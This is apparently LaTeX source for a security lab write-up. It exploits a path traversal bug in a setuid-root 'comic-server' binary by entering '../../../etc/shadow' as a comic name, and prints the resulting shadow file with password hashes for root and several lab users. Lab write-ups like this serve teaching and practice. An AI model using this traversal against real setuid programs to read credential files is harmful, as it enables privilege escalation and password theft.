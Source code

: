 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{enumerate}[label=(\alph*)]
    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item There is \verb|README.txt| in \verb|/home/nasa2023|. It gives some
      information regarding \verb|/root/comic-server/comic-server|.
      \item Run \verb|stat /root/comic-server|. We discover that its file permissions
      is set to \verb|4755|, with \verb|setuid| on.
      \begin{Verbatim}[frame=single, fontsize=\small, commandchars=\\\{\}]
localhost:~$ stat /root/comic-server/comic-server
  File: /root/comic-server/comic-server
  Size: 19384           Blocks: 40         IO Block: 4096   regular file
Device: 803h/2051d      Inode: 130039      Links: 1
\textcolor{red}{Access: (4755/-rwsr-xr-x)}  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-06-07 22:45:40.289998287 +0800
Modify: 2024-05-09 22:33:04.379999973 +0800
Change: 2024-05-09 22:33:13.406666636 +0800
      \end{Verbatim}
      \item Dive into \verb|comic-server.c|. We see that in \verb|void read_comic()|, the
      user input \verb|comic_name| is append after \verb|path|. Therefore, we can
      engineer \verb|comic_name| to contain multiple leading \verb|../|'s to access
      any file as root.
      \item Run \verb|/root/comic-server/comic-server|. ``Choose \verb|2. Read a comic|" and
      type in \verb|../../../etc/shadow| as the comic name. This allows us to see the
      content of \verb|/etc/shadow| and therefore obtain nasa2024's hashed password.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines, breakanywhere, breakanywheresymbolpre=]
localhost:/etc$ localhost:/etc$ /root/comic-server/comic-server
Welcome to my comic server!
I have a lot of comic for you to read. Enjoy!
Please select your action:
1. List all comic
2. Read a comic
3. Submit a comic
4. Talk to root
5. Exit
2
Please enter the comic name: ../../../etc/shadow
root:$6$M03rcP5w38H7hYwm$HWKrqjG9ZdY97E2eKWjNIt6biVCVPkVxZZvsfYPoEtk9P30.PfAzgtjI2IPXj9u7Mo0vLxp7U0u.MjFGXehKu.:19850:0:::::
(...)
nasa2023:$6$6qkngoIeqsMizLEE$Mw3jduV64bfY3yd0otGjaMh2nRJFO/WwXGE6qHF27bbZZq15MJORt3JMy54gfSiDJY43AhNeVynnQHGWp4cz41:19850:0:99999:7:::
student:$6$I7GFgsWJRqjNEt1R$ZmWXyy8rK.Imn0V4Jk6Nr7DpjZmoNTZffrtH9pw4ZVr9GX3NYU09pCA7HOtw7flIxXsmjNt7pQwqk9xslrKhi1:19850:0:99999:7:::
nasa2024:$6$fho8wb1AS1tFC5N3$/eNgObHyRphLNbS4FpeAd2wZG.lk33kIVVK21bJDG46rOJ7SsbglPPyw39IrS5YGyPibFD.S4MAih82ldPjFO1:19850:0:99999:7:::
      \end{Verbatim}


\end{enumerate}
\end{enumerate}
\end{document}
